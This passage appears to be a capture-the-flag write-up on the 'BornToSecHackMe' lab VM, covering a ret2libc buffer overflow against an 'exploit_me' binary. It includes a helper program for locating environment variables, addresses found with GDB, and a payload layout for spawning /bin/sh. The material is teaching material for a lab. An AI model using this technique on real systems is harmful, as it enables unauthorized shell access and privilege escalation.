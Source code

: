 ![image](https://hackmd.io/_uploads/BJVGf8wVp.png)

## Path 3 - Buffer overflow using ret2libc strategy
**Refer path 1 on getting password to zaz**

My first step is to locate the address of the `system()` libC function so I created a dummy.c with the contents like below

```clike=
int main()
{ system(); }
```
I then compile and launch the source with GDB  and printed out the `system` symbol information. The address of the `system` function is `0xb7e6b060`
![image](https://hackmd.io/_uploads/Hy3Cp4u46.png)

After that, I created an env variable to store the string argument `/bin/sh` for our `system()` function. I also made a binary to ease the use of getting an address of a environment variable for us. The reason we also needed to provide the program name as argument when predicting the env address is because the program name affects the beginning of the envp pointer.

```clike=
// getenv.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
         }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

```
zaz@BornToSecHackMe:~$ ./getenv BINSH ./exploit_me
BINSH will be at 0xbfffff41
zaz@BornToSecHackMe:~$

```

The way libC function gets called and reads arguments is through the contents in the stack and it looks like this
![image](https://hackmd.io/_uploads/r1hFZBdNp.png)


our BINSH variable is at `0xbfffff41`. After we get this information, we can construct a payload that 
1. Overflows until return address
2. Replace return address with libC system() address `0xb7e6b060`
3. Append any address because we dont need it returning to anywhere `BEEF`
4. Append our first argument `0xbfffff41`
